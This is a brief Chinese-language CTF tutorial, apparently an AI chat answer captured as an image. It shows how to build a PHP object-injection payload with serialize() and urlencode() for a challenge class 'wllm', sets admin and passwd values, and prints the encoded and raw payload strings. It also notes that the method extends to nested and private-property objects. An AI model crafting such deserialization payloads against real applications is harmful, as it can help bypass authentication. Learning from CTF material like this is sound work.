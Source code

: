 # 🛠 方法

就是用 **`serialize()` 函数 + `urlencode()`**
 PHP自带的！

### 代码示例：

```php
phpCopyEdit<?php
// 1. 创建一个实例
class wllm {
    public $admin;
    public $passwd;
}

// 2. 创建对象并赋值
$exp = new wllm();
$exp->admin = "admin";   // 赋值
$exp->passwd = "ctf";    // 赋值

// 3. 序列化并 URL 编码（直接拿去传参）
echo urlencode(serialize($exp));
?>
```

------

# ⚡ 输出结果

运行这段后输出的就是：

```php
O%3A4%3A%22wllm%22%3A2%3A%7Bs%3A5%3A%22admin%22%3Bs%3A5%3A%22admin%22%3Bs%3A6%3A%22passwd%22%3Bs%3A3%3A%22ctf%22%3B%7D
```

也就是 URL 编码过的：

```php
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

可以直接用在 URL 里面传！

------

# ✨ 如果要直接生成未编码的版本

也可以简单一点：

```php
echo serialize($exp);
```

就得到原版的：

```php
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

------

# 🎯 为什么要 urlencode？

因为直接写裸的对象串到 URL，会有很多特殊字符（比如 `:`，`{`，`"`）需要转义，不然浏览器或者服务器会解析错。
 所以加 `urlencode()` 是最保险的处理方式！

------

# 💡 小总结



| 用途                  | 方法                          |
| --------------------- | ----------------------------- |
| 想要直接payload字符串 | `serialize($obj);`            |
| 想直接塞进URL         | `urlencode(serialize($obj));` |

------

# 🔥 BONUS：更复杂的情况

如果以后遇到：

- 需要嵌套对象（对象里套对象）
- 属性是 private / protected
- 类名是动态的

用这个方法也一样适用！
 只要在代码里把对象关系建好，`serialize()` 会自动生成标准payload，不怕出错！